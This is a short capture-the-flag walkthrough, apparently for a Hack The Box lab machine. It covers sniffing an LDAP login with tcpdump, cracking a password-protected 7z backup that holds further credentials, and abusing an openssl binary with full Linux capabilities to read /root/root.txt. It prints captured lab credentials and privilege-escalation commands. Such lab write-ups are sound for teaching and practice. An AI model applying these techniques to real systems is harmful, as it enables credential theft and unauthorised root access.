

# USER

Site bans IPs for exposed services
But can connect using ssh with a temp user

List of banned ips 
```
http://10.10.10.119/status.php
```

Can connect using ssh ip as username and password

Write to all users
```
wall <MESSAGE>
```


Capabilities seems to be the way forward with this box. A full list of capabilities can be listed
using 

```
capsh --print
```

By running a TCP dump on the localhost I was able to obtain an
LDAP authentication request

```
uid=ldapuser2,ou=People,dc=lightweight,dc=htb
8bc8251332abe1d7f105d3e53ad39ac2
```

LDAP is used to authenticate local users
Therfore:

```
su - ldapuser2
```

Using the ```ldap``` password logs the into the user to get the user.txt

# ROOT

Found a .7z file with password encryption. Going to try a file brute force.
Password for zip file is:

```
delete
```

Zip file contains a backup of the website. It had based in it username and password for ldapuser1

```
ldapuser1
f3ca9d298a553da117442deeb6fa932d
```

Running the LinEnum script when logged in as ldapuser1 you can see that the "openssl" script in the home 
directory has it's capabilities set:

```
/home/ldapuser1/openssl =ep
```

This seems to allow openssl to run as admin
By looking at https://gtfobins.github.io/. You can see that OpenSSL can be used to read and write files

```
./openssl enc -in "/root/root.txt"
```